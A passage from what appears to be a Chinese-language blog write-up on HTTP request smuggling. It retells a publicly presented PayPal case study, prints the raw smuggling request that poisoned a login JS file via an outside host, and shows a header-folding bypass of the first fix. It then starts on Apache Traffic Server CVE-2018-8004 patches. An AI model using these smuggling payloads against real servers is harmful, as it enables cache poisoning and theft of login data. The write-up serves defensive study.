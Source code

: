 首先肯定得来聊聊今年分享 HTTP Smuggling 的作者在 Black Hat 上分享的 Paypal 漏洞实例了

作者首先通过 HTTP Smuggling 的方式将一个用于 Paypal 登录的 js 文件进行了投毒：

```plain
POST /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1 
Host: c.paypal.com
Content-Length: 61 
Transfer-Encoding: chunked

0

GET /webstatic HTTP/1.1
Host: skeletonscribe.net?
X: XGET /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1 
Host: c.paypal.com
Connection: close

HTTP/1.1 302 Found
Location: http://skeletonscribe.net?, c.paypal.com/webstatic/
```

但是 Paypal 登录页面有 CSP 规则 `script-src` 限制了这个跳转。

[![](assets/1698897445-e5ba643339aefc08df0887441c69d37f.svg)](https://portswigger.net/cms/images/e1/5c/43ccf8d84ffc-article-paypal-01.svg)

后来作者发现该页面还有一个动态生成的 iframe 引入了 c.paypal.com，且该子页面没有 CSP 而且还引入了作者投毒的 js 文件！虽然这样可以控制 iframe 页面，但是由于同源策略，是读不到父页面的数据的。

[![](assets/1698897445-395c0dc15e74e420f8a2c2c4406a3311.svg)](https://portswigger.net/cms/images/1e/65/8e618cf695b8-article-paypal-02.svg)

再接着作者的同事在 paypal.com/us/gifts 发现了一个不使用 CSP 的页面，并且也导入了作者投毒的 js 文件，这样作者终于通过 js 将 c.paypal.com 的 iframe 重定向到了 paypal.com/us/gifts，这样就同源了，也就可以读取父页面的数据了。

[![](assets/1698897445-f802bb5e6d4e8a6454326ecaf843d28d.svg)](https://portswigger.net/cms/images/13/0e/7fcaae230c37-article-paypal-03.svg)

Paypal 第一次修复是将 Akamai 配置修改成拒绝含有 Transfer-Encoding: chunked 的请求，但是后来又被作者构造了一个换行的 header 绕过了：

```plain
Transfer-Encoding:
 chunked
```

## ATS

> ​ Apache Traffic Server（ATS）是美国阿帕奇（Apache）软件基金会的一款高效、可扩展的 HTTP 代理和缓存服务器。
> 
> Apache ATS 6.0.0 版本至 6.2.2 版本和 7.0.0 版本至 7.1.3 版本中存在安全漏洞。攻击者可利用该漏洞实施 HTTP 请求走私攻击或造成缓存中毒。
> 
> 在美国国家信息安全漏洞库中，我们可以找到关于该漏洞的四个补丁，接下来我们详细看一下。
> 
> CVE-2018-8004 补丁列表
> 
> -   [https://github.com/apache/trafficserver/pull/3192](https://github.com/apache/trafficserver/pull/3192)
> -   [https://github.com/apache/trafficserver/pull/3201](https://github.com/apache/trafficserver/pull/3201)
> -   [https://github.com/apache/trafficserver/pull/3231](https://github.com/apache/trafficserver/pull/3231)
> -   [https://github.com/apache/trafficserver/pull/3251](https://github.com/apache/trafficserver/pull/3251)
> 
> 注：虽然漏洞通告中描述该漏洞影响范围到 7.1.3 版本，但从 github 上补丁归档的版本中看，在 7.1.3 版本中已经修复了大部分的漏洞。
